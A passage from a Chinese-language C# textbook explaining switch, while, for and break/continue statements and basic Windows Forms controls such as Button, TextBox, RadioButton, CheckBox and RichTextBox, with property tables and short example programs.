

图23 if语句实例

##### 3.5.2 使用 switch 语句实现分支

switch 语句也是一个多条件判断语句，当代码执行到此语句时，根据“case”语句的条件，逐个判断变量的值，满足条件的则进入相对应的“case”代码段，如果没有满足任何“case”条件，则进入“default”语句，执行默认代码段。switch 语句的语法如下所示，其中每个“case”代码段内部必须带有一个“break;”语句，用来从当前分支条件中跳出。

```csharp
switch (条件)
{
    case 值:
        ...
        break;
    case 值:
        break;
    default:
        ...
        break;
}
```

我们创建一个新的控制台应用程序，命名为“switch_test”，代码如下：

```csharp
using System;
using System.Collections.Generic;
using System.Text;

namespace switch_test
{
    class Program
    {
        static void Main(string[] args)
        {
            int i = 10;   // 初始化变量
            switch (i)
            {
                case 10:
                    Console.WriteLine("当前变量的值等于10");
                    break;
                case 20:
                    Console.WriteLine("当前变量的值大于10");
                    break;
                case 5:
                    Console.WriteLine("当前变量的值小于10");
                    break;
                default:
                    Console.WriteLine("没有找到当前变量的值");
                    break;
            }
        }
    }
}
```



图24 switch语句实例

按“Ctrl+F5”编译运行，运行效果如图24所示。

##### 3.5.3 使用 while 语句实现循环

while 语句是一个循环，在满足条件的基础上，可以重复执行一段代码。while 语句的语法如下所示：

```csharp
while (条件)
{
    ......
}
```

我们创建一个新的控制台应用程序，命名为“while_test”，代码如下：

```csharp
using System;
using System.Collections.Generic;
using System.Text;
namespace while_test
{
    class Program
    {
        static void Main(string[] args)
        {
            int i = 10;   // 初始化变量
            while (i > 3) // 判断变量是否大于3，如果满足条件，开始循环
            {
                Console.WriteLine("当前变量的值等于{0}", i); // 输出变量值
                i--; // 变量自减
            }
        }
    }
}
```



按“Ctrl+F5”编译运行，运行效果如图25所示。

图25 while语句实例

##### 3.5.4 使用 for 语句实现循环

for 语句和 while 语句一样，也是实现代码的循环语句，用来重复执行一段代码。两个循环语句使用的方法不同。for 语句的使用语法如下所示：

```csharp
for（变量初始值；变量条件；变量增加或减少）
{
    循环代码段...
}
```

我们创建一个新的控制台应用程序，命名为“for_test”，代码如下：

```csharp
using System;
using System.Collections.Generic;
using System.Text;
namespace for_test
{
    class Program
    {
        static void Main(string[] args)
        {
            for (int i = 10; i > 3; i--) // 判断变量是否大于3，如果满足条件，开始循环
            {
                Console.WriteLine("当前变量的值等于{0}", i); // 输出变量值
            }
        }
    }
}
```



图26 for语句实例

按“Ctrl+F5”编译运行，运行效果如图26所示。

##### 3.5.5 使用 break/continue 控制循环

在 while 和 for 循环语句中，如果满足条件，则循环会一直继续下去。C# 提供了 break/continue 语句，用来控制循环的执行。“break”可以中断当前正在执行的循环，跳出循环。“continue”表示继续执行当前的循环，而后面的代码无需执行，即重新开始循环。两个语句的使用语法如下所示：

```csharp
for（条件）
{
    break;
    continue;
}
```

我们创建一个新的控制台应用程序，命名为“breakcontinue_test”，代码如下：

```csharp
using System;
using System.Collections.Generic;
using System.Text;
namespace breakcontinue_test
{
    class Program
    {
        static void Main(string[] args)
        {
            for (int i = 10; i > 3; i--) // 判断变量是否大于3，如果满足条件，开始循环
            {
                Console.WriteLine("当前变量的值等于{0}", i); // 输出变量值
                break;
                Console.WriteLine("看看这句是否输出呢？"); // 没有输出说明跳出了循环
            }

            for (int i = 20; i > 13; i--) // 判断变量是否大于13，如果满足条件，开始循环
            {
                Console.WriteLine("当前变量的值等于{0}", i); // 输出变量值
                continue;
                Console.WriteLine("看看这句是否输出呢？"); // 没有输出说明跳出了循环
            }
        }
    }
}
```



图27 break/continue语句实例

按“Ctrl+F5”编译运行，运行效果如图27所示。

## 4 Windows编程基础

#### 4.1 常用控件

控件是 VS2005 为开发人员提供的一种便捷方式，开发人员可以通过拖拽控件，快速地设计程序界面，并通过控件的事件来完成功能操作。

控件有很多属性，如控件的大小、位置、字体、颜色等。下面列出一些常见的通用属性：

| 名称 | 描述 |
|---|---|
| Anchor | 使用这个属性，可以指定当控件的容器大小发生变化时，该控件如何响应 |
| BackColor | 控件的背景色 |
| Bottom | 设置这个属性，可以指定控件的底部距离窗口顶部有多远 |
| Dock | 可以使控件靠在窗口的边界上。参见下面对这个属性的详细解释 |
| Enabled | 为 true 表示该控件可以接收用户的输入。为 false 表示不能接收用户的输入 |
| ForeColor | 控件的前景色 |
| Height | 控件从底部到顶部的距离 |
| Left | 控件的左边界到窗口左边界的距离 |
| Name | 控件的名称。这个名称可以在代码中用于引用该控件 |
| Parent | 控件的父控件 |
| Right | 控件的右边界到窗口左边界的距离 |
| TabIndex | 控件在容器中的标签顺序号 |
| TabStop | 指定控件是否可以用 Tab 键访问 |
| Tag | 在控件中存储该控件的信息 |
| Text | 保存与该控件相关联的文本 |
| Top | 控件的顶部距离窗口顶部的距离 |
| Visible | 指定控件是否在运行期间可见 |
| Width | 控件的宽度 |

### 4.1.1 Button控件

该控件为一个按钮，单击该按钮，就可以执行某项任务。对按钮控件的处理是非常简单的，通常是添加控件，双击它，给 Click 添加代码，这对于大多数应用程序来说就足够了。下面是 Button 常用属性：

| 名称 | 描述 |
|---|---|
| FlatStyle | 按钮的样式。 |
| Enabled | 把 Enabled 设置为 false，则该按钮就会灰显，单击它，不会起任何作用 |
| Image | 可以指定一个在按钮上显示的图像（位图、图标等） |
| ImageAlign | 可以设置按钮上的图像在什么地方显示 |

打开 VS2005 中的“文件→新建→项目”模板，在模板里面选择“Windows 应用程序”，在名称里面修改名字为 button_test。在工具箱中拖放一个“button”控件到窗体中，然后移动按钮，重新调节大小位置，如图28所示。



右击按钮，选择属性，在属性窗口上选择 Name 字段，输入相关的文本，修改按钮的 Name 属性。与 Name 字段一样，修改按钮的 Text 属性。最后，单击窗体，把 Text 属性改为“button_test”，如图29所示。



双击“hello”按钮，就会切换到按钮的“Click”事件中，此处可编写用户单击“hello”按钮时发生的动作代码，代码如下：

```csharp
private void hello_Click(object sender, EventArgs e)
{
    MessageBox.Show("hello pois0n");
}
```

其中“MessageBox”用来显示一个对话框，内容为“hello pois0n”。

### 4.1.2 TextBox控件

文本框的主要用途是让用户输入文本，用户可以输入任何字符，也可以得到文本框中的内容。下面是 TextBox 常用属性：

| 名称 | 描述 |
|---|---|
| MaxLength | 这个值指定输入到 TextBox 中的文本的最大字符长度。 |
| Multiline | 表示该控件是否是一个多行控件。多行控件可以显示多行文本。 |
| PasswordChar | 指定是否用密码字符替换在单行文本框中输入的字符。 |
| ReadOnly | 这个 Boolean 值表示文本是否为只读 |
| Text | 文本框中初始显示的内容 |

打开 VS2005 中的“文件→新建→项目”模板，在模板里面选择“Windows 应用程序”，在名称里面修改名字为 textBox_test。

在工具箱中拖放一个“Button”控件、一个“TextBox”控件到窗体中，然后移动按钮和文本框，重新调节大小位置，如图30所示。



右击文本框，选择属性，在属性窗口上选择 Name 字段，修改文本框的 Name 属性。单击窗体，把 Text 属性改为“textBox_test”。

双击“显示文本框内容”按钮，就会切换到按钮的“Click”事件中，本例书写的代码如下所示：

```csharp
private void button1_Click(object sender, EventArgs e)
{
    MessageBox.Show(textBox1.Text);
}
```

“textBox1.Text”则是获取文本框中用户输入的内容，“MessageBox”用来显示一个对话框，内容为用户输入的对应信息。

按“Ctrl+F5”编译运行，在文本框内输入“pois0n”，单击“显示文本框内容”按钮，运行效果如图31所示。



按钮控件和文本框控件的使用都非常简单，选中某个控件，右击控件，选择属性会出现这个控件的一些属性，通过浏览这些属性，可以挖掘出这些控件的更大功能。

### 4.1.3 Label控件

Label 控件也是很常用的控件。几乎在任何 Windows 应用程序中，都可以在对话框中见到它们。标签是一个简单的控件，其用途只有一个，在控件上显示文本。Label 控件常用属性如下：

| 名称 | 描述 |
|---|---|
| BorderStyle | 可以指定标签边框的样式。默认为无边框 |
| Image | 这个属性可以指定要在标签上显示的图像 |
| ImageAlign | 图像的对齐方式 |
| TextAlign | 文本显示在控件的什么地方 |
| Text | 标签中显示的内容 |

### 4.1.4 GroupBox控件

GroupBox 控件常常用于逻辑地组合一组控件，如 RadioButton 及 CheckBox 控件，显示一个框架，其上有一个标题。GroupBox 控件的用法非常简单，把它拖放到窗体上，再把所需的控件拖放到 GroupBox 控件中即可。注意，顺序不能颠倒，不能把 GroupBox 控件放在已有的控件上面。

GroupBox 控件的另一个好处是可以一次性改变其内所有控件的某些属性，方法是在 GroupBox 控件上设置这些属性。例如，如果要禁用 GroupBox 控件中的所有控件，只需把 GroupBox 控件的 Enabled 属性设置为 false 即可。

### 4.1.5 RadioButton 和 CheckBox控件

RadioButton 单选按钮显示为一个标签，左边是一个圆点，该点可以是选中也可以是未选中。在给用户提供几个选择但只能选择一项时，可以使用单选按钮。

单选按钮组合在一起，需要使用 GroupBox 控件。首先在窗体上拖放一个 GroupBox 控件，再把需要的 RadioButton 按钮放在 GroupBox 控件的边界之内，RadioButton 按钮会自动改变自己的状态，以反映 GroupBox 控件中唯一被选中的选项。

CheckBox 复选框显示为一个标签，左边是一个带有标记的小方框。在希望用户可以选择一个或多个选项时，就应使用复选框。

- 打开 VS2005 中的“文件→新建→项目”模板，在模板里面选择“Windows 应用程序”，在名称里面改名字为 radioCheckbox_test。
- 添加一个 CheckBox、一个 GroupBox 和两个 RadioButton 控件。
- 修改 RadioButton 和 CheckBox 控件的 Text 属性。把 radioButton1 或 radioButton2 的 Checked 属性设置为 true，不能把它们两个同时设置为 true，否则，另一个 RadioButton 的值会自动变为 false。最终界面如图32所示。



图32 最终界面

双击“单选按钮”按钮，切换到按钮的“Click”事件中，“radioButton1.Checked”是获取单选按钮的当前状态。radioButton1.Checked==true 表示当前被选中，radioButton1.Checked==false 表示当前没有被选中。注意这里是“==”，而不是“=”。

```csharp
private void button1_Click(object sender, EventArgs e)
{
    if (radioButton1.Checked == true)
    {
        MessageBox.Show("选择了单选按钮1");
    }
    else if (radioButton2.Checked == true)
    {
        MessageBox.Show("选择了单选按钮2");
    }
    else
    {
        MessageBox.Show("没有选择单选按钮");
    }
}
```

双击“复选框”按钮，切换到按钮的“Click”事件中，“checkBox1.Checked”是获取复选框的当前状态。checkBox1.Checked==true 表示当前选择了这个复选框，checkBox1.Checked==false 表示当前没有选择。

```csharp
private void button2_Click(object sender, EventArgs e)
{
    if (checkBox1.Checked == true)
    {
        MessageBox.Show("选择了复选框");
    }
    else
    {
        MessageBox.Show("没有选择复选框");
    }
}
```

##### 4.1.6 RichTextBox 控件

RichTextBox 控件和 TextBox 控件很像，但是功能要比 TextBox 控件强大得多。TextBox 常用于从用户处获取短文本字符串，而 RichTextBox 用于显示和输入格式化的文本，例如，黑体、下划线和斜体。RichTextBox 控件常用属性如下：

| 名称 | 描述 |
|---|---|
| BackColor | 背景颜色。可从弹出的调色板选择。 |
| ForeColor | 此组件的前景色用于显示文本 |
| DetectUrls | 指示是否将 URL 格式的文本设为超链接 |
| Text | 显示的内容 |

精通C#黑客注入编程

打开 VS2005 中的“文件→新建→项目”模板，在模板里面选择“Windows 应用程序”，在名称里面修改名字为 richTextBox_test。添加一个 RichTextBox 控件和一个 Button 控件。

右击 RichTextBox 控件，选择属性，在属性窗口上选择 Name 字段，修改文本框的 Name 属性。修改 BackColor 字段，修改背景颜色为黑色。修改 ForeColor 字段，修改显示文本颜色为绿色。单击窗体，把 Text 属性改为“richTextBox_test”。

双击“显示文本”按钮，切换到按钮的“Click”事件中，“richTextBox1.Text”是获取或设置 RichTextBox 控件的文本内容。

```csharp
private void button1_Click(object sender, EventArgs e)
{
    richTextBox1.Text = "010101010101010101010101010101" + "\r\n";
    richTextBox1.Text += "101010101010101010101010101010";
}
```

按“Ctrl+F5”编译运行，单击“显示文本”按钮，运行效果如图33所示。

